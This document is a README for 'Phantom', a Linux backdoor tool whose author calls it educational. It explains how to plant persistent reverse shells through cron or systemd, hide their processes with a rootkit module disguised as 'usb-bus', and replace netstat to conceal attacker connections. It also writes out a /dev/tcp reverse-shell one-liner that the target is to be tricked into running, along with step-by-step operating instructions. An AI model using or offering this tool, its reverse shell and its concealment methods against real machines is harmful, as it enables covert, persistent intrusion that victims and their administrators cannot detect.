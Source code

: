 # Overview

Phantom is a tool which creates backdoor shells from a target machine to an attacker's and hides their
pid, persisting through reboots. It also hides the files needed to perform the above and replaces netstat. It only works on
Linux machines.

**Phantom was created for educational purposes. Stay away from illegal activities.**

Phantom uses ncat on the attacker's machine to listen for incoming connections from the target's machine. At first it
opens an ncat connection to a port (port1) and when the target's machine connects to this port it delivers the payload. The payload
opens a new backdoor shell every 5 minutes to the attacker's machine, but to a different port than the first one (port2). The reason for this is that this way you have more control of what to do with the backdoor shell, otherwise the same payload gets executed each time the target connects to your machine. It also creates a python3 server listening to a third port (portp) that is needed to transfer the files needed by the payload. So, essentially, you have to specify three ports.

## Usage

```
phantom-init  [ip=][port1=][port2=][portp=]
```

* ip: the attacker's ip (e.g. ip=127.0.0.1)
* port1: the port that listens for connections to deliver the payload (e.g. port1=8888)
* port2: the port that listens for the backdoor shells after delivering the payload 
* portp: the port that the python3 server listens to transfer the functions and variables needed by the payload

You have to somehow make the target execute this code, so that he connects to port1:  
**bash -c 'bash &>/dev/tcp/ip/port1 0>&1 &'**  
ip and port1 are the ones specified above.

## Files

* phantom-init: Creates the python3 server and an ncat listening process to a predefined ip and port and redirects input to the payload file.

* payload: This is the file that gets executed when the target connects to the listening ncat port1. It does the following:
  * If the user connecting is not root it overwrites the user's crontab entry with code which periodically attempts to create a
  backdoor shell to the port2.
  * If the user connecting is root it creates a systemd service which executes a script, continuously trying to
  create a backdoor bash shell to your machine (port2). It also creates a systemd service which executes a script,
  hiding the pids of the backdoor shells and both of the systemd services (ps aux cannot find them this way). It then
  creates and inserts a rootkit module named usb-bus which hides its files, the ones of the scripts that the systemd services use
  and the systemd services themselves. It is also persistent through reboots because the second systemd service
  (the one which hides pids) inserts it when it loads at boot time. Then, it replaces netstat with a version that hides the remote connections to the specified ip and port2.

* phantom-firewall: This file uses nftables. Use it only with sudo. It makes a backup of the nft ruleset in /etc/nftables.conf.bak and then
modifies the nft ruleset so that it doesn't allow more than one connection from a target ip. This is good because the target machine will
continuously open new bash shells, increasing the footprint of Phantom's actions and putting increasing and uneeded load on the target system. It can also undo changes made to the nft ruleset by using the argument -r | -R .

## Order of execution

* Before delivering the payload:
  1.  Execute phantom-init and wait for the target to connect to your machine.

* After delivering the payload:
  1.  Execute phantom-firewall as root, so it can modify the firewall rules.
  2.  Create a ncat process listening at the 2nd-port. (use the -k flag to accept multiple connections)

## Order of closing

1.  Close phantom-firewall and wait for some seconds so the connections can start flowing normally again.
2.  Close the ncat listening process so all the connections get closed with it.
3.  Execute this command: sudo phantom-firewall -r | -R. This undoes any changes to the nft ruleset made by phantom-firewall.
    This is needed if you want the target to be able to connect to you again, otherwise a nftables rule is gonna
    block him.

### Contact Information

Konstantinos Sarantopoulos  
konsaranto@gmail.com
